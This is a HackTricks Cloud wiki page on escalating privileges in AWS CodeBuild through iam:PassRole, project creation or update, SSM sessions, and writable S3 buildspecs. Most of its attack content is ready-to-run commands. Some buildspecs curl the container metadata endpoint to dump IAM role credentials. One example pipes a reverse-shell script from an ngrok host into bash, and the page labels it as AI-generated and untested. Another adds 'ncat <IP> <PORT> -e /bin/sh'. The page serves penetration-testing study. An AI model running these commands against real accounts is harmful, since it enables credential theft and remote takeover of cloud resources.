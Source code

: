# AWS - Codebuild Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## codebuild

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

An attacker with the **`iam:PassRole`, `codebuild:CreateProject`, and `codebuild:StartBuild` or `codebuild:StartBuildBatch`** permissions would be able to **escalate privileges to any codebuild IAM role** by creating a running one.

{% tabs %}
{% tab title="Example1" %}
```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

JSON="{
    \"name\": \"codebuild-demo-project\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```
{% endtab %}

{% tab title="Example2" %}
{% code overflow="wrap" %}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
  build:
    commands:
      - curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**Potential Impact:** Direct privesc to any AWS codebuild role.

{% hint style="warning" %}
In a **Codebuild container** the file `/codebuild/output/tmp/env.sh` contains all the env vars needed to access the **metadata credentials**.

This file contains the **env variable `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** which contains the **URL path** to access the credentials. It will be something like this `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

&#x20;Add that to the URL **`http://169.254.170.2/`** and you will be able to dump the role credentials.

Moreover, it also contains the **env variable `ECS_CONTAINER_METADATA_URI`** which contains the complete URL to get **metadata info about the container**.
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Just like in the previous section, if instead of creating a build project you can modify it, you can indicate the IAM Role and steal the token

```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# You need to indicate the name of the project you want to modify
JSON="{
    \"name\": \"<codebuild-demo-project>\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```

**Potential Impact:** Direct privesc to any AWS codebuild role.

### ssm

Having **enough permissions to start a ssm session** it's possible to get **inside a Codebuild project** being built.

The codebuild project will need to have a breakpoint:

<pre class="language-yaml"><code class="lang-yaml">phases:
  pre_build:
    commands:
      - echo Entered the pre_build phase...
      - echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

And then:

```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```

For more info [**check the docs**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

### (`codebuild:StartBuild` | `codebuild:StartBuildBatch`), `s3:GetObject`, `s3:PutObject`

An attacker able to start/restart a build of a specific CodeBuild project which stores its `buildspec.yml` file on an S3 bucket the attacker has write access to, can obtain command execution in the CodeBuild process.

Note: the escalation is relevant only if the CodeBuild worker has a different role, hopefully more privileged, than the one of the attacker.

```bash
aws s3 cp s3://<build-configuration-files-bucket>/buildspec.yml ./

vim ./buildspec.yml 

# Add the following lines in the "phases > pre_builds > commands" section
#
#    - apt-get install nmap -y
#    - ncat <IP> <PORT> -e /bin/sh

aws s3 cp ./buildspec.yml s3://<build-configuration-files-bucket>/buildspec.yml

aws codebuild start-build --project-name <project-name>

# Wait for the reverse shell :)
```

**Impact:** Direct privesc to the role used by the AWS CodeBuild worker that usually has high privileges.

More details could be found [here](https://www.shielder.com/blog/2023/07/aws-codebuild--s3-privilege-escalation/).

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
